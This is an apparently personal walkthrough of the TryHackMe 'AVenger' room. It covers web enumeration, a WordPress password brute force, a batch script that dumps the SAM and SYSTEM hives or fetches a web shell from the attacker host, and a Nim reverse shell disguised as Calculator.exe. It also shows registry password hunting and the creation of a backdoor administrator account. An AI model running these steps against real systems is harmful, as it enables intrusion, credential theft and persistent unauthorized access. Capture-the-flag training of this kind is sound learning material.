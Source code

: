 # AVenger

**Room Link:** [https://tryhackme.com/r/room/avenger](https://tryhackme.com/r/room/avenger)

**Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (978).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (984).png" alt=""><figcaption></figcaption></figure>



### **TCP/80 - HTTP** <a href="#tcp-80-http" id="tcp-80-http"></a>

**Find Pages**

There were too many 404 and 403 in the scan so I changed to ffuf to ignore them.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

**Kali**

```
ffuf -u http://$VICTIM/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403 -e .php,.html,.txt
```

<figure><img src="../../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (980).png" alt=""><figcaption></figcaption></figure>





The gift folder takes us to avenger.tryhackme

<figure><img src="../../.gitbook/assets/image (982).png" alt=""><figcaption></figcaption></figure>



**Add hostname to host file**

**Kali**

```
echo $VICTIM avenger.tryhackme  >> /etc/hosts
cat /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ffuf -u http://avenger.tryhackme/gift/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403 -e .php,.html,.txt
```



**Kali**

```
 wpscan --url http://avenger.tryhackme/gift --enumerate p
```

<figure><img src="../../.gitbook/assets/image (987).png" alt=""><figcaption></figcaption></figure>

**Bruteforce admin page**

**Kali**

```
wpscan --url http://avenger.tryhackme/gift --passwords /usr/share/wordlists/rockyou.txt
```



## Initial Shell

<figure><img src="../../.gitbook/assets/image (988).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/flozz/p0wny-shell.git
cd p0wny-shell/ 
subl exploit.bat
```

**exploit.bat**

<pre><code><strong>@echo off
</strong>
:: Check if the current user is NT AUTHORITY\SYSTEM
whoami /groups | find "S-1-5-18" > nul

if %errorlevel% equ 0 (
    :: Run commands for NT AUTHORITY\SYSTEM
    reg.exe save HKLM\SYSTEM C:\xampp\htdocs\system.bak
    reg.exe save HKLM\SAM C:\xampp\htdocs\sam.bak
) else (
    :: Run commands for other users
    curl http://$KALI:82/shell.php -o C:\xampp\htdocs\shell.php
)
</code></pre>

I tried bypassing the file type restriction with the shell above, I could see the bat file running by seeing that it try to grab the shell.php file but I couldn't find a place to save the file where I could also see it on the website.

**Kali**

```
python2 -m SimpleHTTPServer 82
```

<figure><img src="../../.gitbook/assets/image (989).png" alt=""><figcaption></figcaption></figure>

Nim reverse shell worked because they accept exe files&#x20;

**Kali**

<pre><code>git clone https://github.com/Sn1r/Nim-Reverse-Shell.git
cd Nim-Reverse-Shell/
<strong>apt install mingw-w64 -y
</strong></code></pre>

**Kali**

```
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

**Kali**

```
subl rev_shell.nim
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali #1**

```
/root/.nimble/bin/nim c -d:mingw  --app:gui --opt:speed -o:Calculator.exe rev_shell.nim
```

<figure><img src="../../.gitbook/assets/image (993).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (994).png" alt=""><figcaption></figcaption></figure>

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Esclation**&#x20;

Found some credentials.

**Victim**

```
type C:\xampp\htdocs\gift\wp-config.php
```

<figure><img src="../../.gitbook/assets/image (995).png" alt=""><figcaption></figcaption></figure>

From my computer I could access the mysql.

**Kali**

```
apt install mysql-client-core-5.7   
mysql -h$VICTIM -ugift -pSurpriseMF
```

I was able to find a password but couldn't crack it&#x20;

**Kali(mysql)**

```
select * from mysql -h$VICTIM -ugift -pSurpriseMF
use gift;
show tables;
select * from wp_users;
```

<figure><img src="../../.gitbook/assets/image (992).png" alt=""><figcaption></figcaption></figure>

I found a password

**Victim**

```
reg query HKLM /f password /t REG_SZ /s
```

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
remmina
Username: hugo
Password: SurpriseMF123!
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can run a administrator shell from the GUI

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
net user backdoor pass!123 /add
net localgroup Administrators "Remote Desktop Users"  backdoor /add
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v forceguest /t reg_dword /d 0 /f
```



**Kali**

```
remmina
Username: backdoor 
Password: pass!123
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
